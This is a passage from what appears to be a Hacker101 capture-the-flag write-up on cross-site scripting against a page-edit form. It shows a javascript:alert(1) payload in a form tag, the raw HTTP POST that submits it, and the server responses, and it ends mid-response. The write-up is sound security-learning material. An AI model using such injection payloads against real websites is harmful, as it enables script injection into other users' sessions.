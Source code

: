 ```HTTP
            <input type="submit" value="Save">
            <div style="font-style: italic"><a href="https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet">Markdown</a> is supported, but scripts are not</div>
        </form>
    </body>
</html>
```

2. Payload: `<form src='javascript:alert(1)'>`
```HTTP
POST /page/edit/1 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 65
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Host: 9940c6abb8ba1a5fdb4cf8e5d48cdddc.ctf.hacker101.com
User-Agent: HTTPie/3.2.4

title=title&body=%3Cform+src%3D%27javascript%3Aalert%281%29%27%3E


HTTP/1.1 302 FOUND
Connection: keep-alive
Content-Length: 201
Content-Type: text/html; charset=utf-8
Date: Mon, 04 Aug 2025 00:04:06 GMT
Location: /page/1
Server: openresty/1.27.1.2

<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/page/1">/page/1</a>. If not, click the link.
```

**Resultado**
```HTTP
GET /page/1 HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Host: 9940c6abb8ba1a5fdb4cf8e5d48cdddc.ctf.hacker101.com
User-Agent: HTTPie/3.2.4



HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 254
Content-Type: text/html; charset=utf-8
Date: Mon, 04 Aug 2025 00:04:16 GMT
Server: openresty/1.27.1.2

<!doctype html>
<html>
    <head>
        <title>title</title>
    </head>
    <body>
        <a href="../">&lt;-- Go Home</a><br>
        <a href="edit/1">Edit this page</a>
```